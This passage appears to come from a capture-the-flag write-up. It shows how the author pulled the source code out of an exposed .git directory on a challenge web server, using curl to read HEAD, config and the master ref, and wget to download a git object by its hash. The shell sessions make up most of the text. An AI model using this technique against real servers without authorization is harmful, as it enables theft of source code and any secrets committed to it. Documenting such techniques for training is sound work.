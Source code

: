 I then tired to access the files inside .git:

```bash
juancho💀hackbox:git-commit-m-whatever$ curl http://193.57.159.27:46140/.git/HEAD
ref: refs/heads/master
juancho💀hackbox:git-commit-m-whatever$ curl http://193.57.159.27:46140/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	ignorecase = true
	precomposeunicode = true
juancho💀hackbox:git-commit-m-whatever$ curl http://193.57.159.27:46140/.git/description
Unnamed repository; edit this file 'description' to name the repository.
juancho💀hackbox:git-commit-m-whatever$ 
```

Perfect! Based on this information, I knew that the repository had the master branch. The goal of course was to extract the source code of the repository, by trying to rebuild `.git`.

The next step was to get the hash of master branch's head:

```bash
juancho💀hackbox:git-commit-m-whatever$ curl http://193.57.159.27:46140/.git/refs/heads/master
2756250c7cd2188bdf8c4cdeddc92bcbe13f1755
juancho💀hackbox:git-commit-m-whatever$ 
```

Then, create a directory tree for objects: `mkdir -p .git/objects`

This next command, I had to research to figure out how the objects are structured in git. It turns out that the 1st byte of the hash is the directory name, and the remaining are same as the filename.

Verify:

```bash
juancho💀hackbox:git-commit-m-whatever$ curl -I http://193.57.159.27:46140/.git/objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755
HTTP/1.1 200 OK
Date: Sat, 09 Oct 2021 20:24:37 GMT
Server: Apache/2.4.48 (Debian)
Last-Modified: Fri, 08 Oct 2021 12:08:49 GMT
ETag: "8f-5cdd63dea1640"
Accept-Ranges: bytes
Content-Length: 143

juancho💀hackbox:git-commit-m-whatever$ 
```

With this, create a directory called `27`, which is the first byte in `2756250c7cd2188bdf8c4cdeddc92bcbe13f1755`, then download the object inside it:

```bash
juancho💀hackbox:git-commit-m-whatever$ mkdir .git/objects/27
juancho💀hackbox:git-commit-m-whatever$ wget http://193.57.159.27:46140/.git/objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755 -P .git/objects/27/
--2021-10-09 22:26:45--  http://193.57.159.27:46140/.git/objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755
Connecting to 193.57.159.27:46140... connected.
HTTP request sent, awaiting response... 200 OK
Length: 143
Saving to: ‘.git/objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755’

56250c7cd2188bdf8c4cdeddc92bcbe13f1 100%[================================================================>]     143  --.-KB/s    in 0s      

2021-10-09 22:26:46 (24.4 MB/s) - ‘.git/objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755’ saved [143/143]
```